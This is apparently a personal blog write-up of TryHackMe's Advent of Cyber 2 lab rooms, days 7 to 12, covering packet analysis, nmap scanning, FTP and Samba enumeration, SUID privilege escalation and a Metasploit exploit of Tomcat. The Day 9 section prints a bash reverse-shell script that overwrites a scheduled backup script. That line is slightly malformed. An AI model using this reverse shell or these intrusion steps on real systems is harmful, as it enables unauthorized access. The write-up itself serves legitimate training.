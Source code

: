 ```yaml
---
title: TryHackMe - Advent of Cyber 2 Part 2
published: true
---
```

<br/>
# [](#header-1)TryHackMe room write-up: Advent of Cyber 2 (days 7 - 12: Networking )

The second topic for this most recent Advent of Cyber is networking. Let's open up wireshark and start with some analysis!

## Day 7: The Grinch Really Did Steal Christmas

This day's educational content walks through some good fundamental networking techniques which included (but are not limited to) IP Adresses, TCP/IP + the three-way handshake, intro to wireshark and taking a look at some .pcap files for analysis. Starting with pcap1.pcap, I applied the "icmp" filter to see clearly which IP Adress the first ping originated from.
<br/>
<br/>
The next question involved filtering to view only HTTP GET requests and finding the name of the article that a specific IP visited:
<br/>
![](images/THM_2AV/THM_2AC12.png)
<br/>
The next two questions involve taking a look at the pcap2.pcap file. The first step is to apply the "ftp" filter to the file and walk through until a leaked password is found. The second question asks what protocol is encrypted. Well we know that ftp is definetely not, I walked through the requests in order and lucked out with the first one as it happened to be ssh.
<br/>
![](images/THM_2AV/THM_2AC13.png)
<br/>
as described explicitly in the packet capture itself, the SSH protocol sends an encrypted packet when attempting to establish a connection (in this instance the Direction = server-to-client).
<br/>
The final question takes a look at pcap3 and asks about a change made to a wishlist. At the start of this question asks us to recover christmas, taking a look at the pcap file shows that the only recoverable object protocol is HTTP. So I exported this and found christmas.zip:
<br/>
![](images/THM_2AV/THM_2AC14.png)
<br/>
I'll let you find out what Elf McSkidy is asking for to replace Elf McEager because it's pretty funny, I'd ask for the same things.
<br/>
<br/>

## Day 8: What's Under the Christmas Tree?

Day 8 was all about nmap scans and firewall detection. It was a really good read and I would highly recommend it. I started by scanning the first 9,999 ports on the machine. 
<br/>
```
nmap -p1-9999 -sV {Machine IP}
```
<br/>
<br/>
![](images/THM_2AV/THM_2AC15.png)
<br/>
Now this answers a lot of todays questions which is nice. The last question has us running the http-title nse script, should be easy enough:
<br/>
```
nmap --script http-title {Machine IP}
```
<br/>
But wait theres more! The optional bonus has us add an entry to /etc/hosts and check it out. I poked around some directories I found using gobuster, something I would also highly recommend. 

## Day 9: Anyone can be Santa!

Looks like we are dealing with an misconfigured FTP server today, let's see what we have. I'm getting some flash blacks to the Bounty Hacker room on TryHackMe.'
<br/>
![](images/THM_2AV/THM_2AC17.png)
<br/>
<br/>
For starters, we have access to the "public" directory in ftp. It is in this directory we can find an intresting file called backup.sh. I ran used "get" to pull it to my own machine to take a look (I also grabbed the .txt file in that directory because why not). We can see that the backup.sh script is shceduled run at a regular interval. Let's upload our own version of that script through the ftp server so we overwrite it. Here's an example of what I came up with:
<br/>
```
#!/bin/bash

bash -i /dev/tcp/{MACHINE IP}/9001 0>&1
```

I uploaded the script and began listening on the specified port (and its over 9000 :) ). After a minute or so we had root and was able to read the flag.

## Day 10: Don't be sElfish! 

Ooooh today we have a Samba file server, let's fire up the machine and see what we are dealing with. 
<br/>
By running enum4linux against the ip address of the machine, we are able to get a plethora of information (which is more than enough to answer the first 2 questions). As for question 3, I couldnt decide which one to pick first. So, I left it up to RNGesus and made the following python script
<br/>
![](images/THM_2AV/THM_2AC18.png)
<br/>
I am happy to report that we were blessed my the psuedo RNG entities of the higher being persuasion because the list's first entry was the tbfc-santa share. All the answers were in santa's samba share, who would've known.

## Day 11: The Rogue Gnome

This day's challenge has us helping Mr. Elf McEager with some Privelage Escelation. I will see you at root.
<br/>
So to challenge myself, I wanted to impose two restrictions for this room. First, I would not read the description for this room and simply jump right into the questions. Second, I would not use any external scripts to search for privelage escelation vectors and instead try to find them manually.
<br/>
So here is the fastest possible way I was able to root the machine, all in this one image:
<br/>
![](images/THM_2AV/THM_2AC19.png)
<br/>
Since /bin/bash had a setuid bit set, I was able to maintain elevated privelages by spawning a bash shell and supplying the -p option which stops bash from resetting the effective user id for the new shell. 

SOME RESOURCES and notes to myself:
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
Some log files of interest:
<br/>
"/var/log/auth.log" (Attempted logins)
<br/>
"/var/log/syslog" (System events such as firewall alerts:)
<br/>
"/var/log/services/*"
For example, the access logs of apache2
    /var/log/apache2/access.log"
<br/>

## Day 12: Ready, set, elf. 

This room was kind of like a pop quiz of all the things learned in the previous days(and even the last advent of cyber as well). I decided to start by jumping into the questions:
<br/>
To start off I ran nmap to get an idea of what services were on the machine(on my first go I didn't add the -Pn flag because the machine was blocking pings)
<br/>
```
nmap -Pn -sV {machine IP}
```
<br/>
From the scan results, I saw that Tomcat was running on port 8080, I thought this would be the attack vector for this days challenge.
<br/>
I opened a new terminal window and started up the msfconsole. I ran a quick search for Tomcat vulns and was met with two possible exploits:
<br/>
![](images/THM_2AV/THM_2AC20.png)
<br/>
After researching both, it looked like the cgiServlet enableCmdLineArguments Vulerability was the only option. I then ran around the internet trying to find a common .bat file I could exploit only to find out that the .bat file was given to us in the room description elfwhacker.bat. Using /cgi-bin/elfwhacker.bat/ for the TARGETURI option in metasploit easily gives us a session!
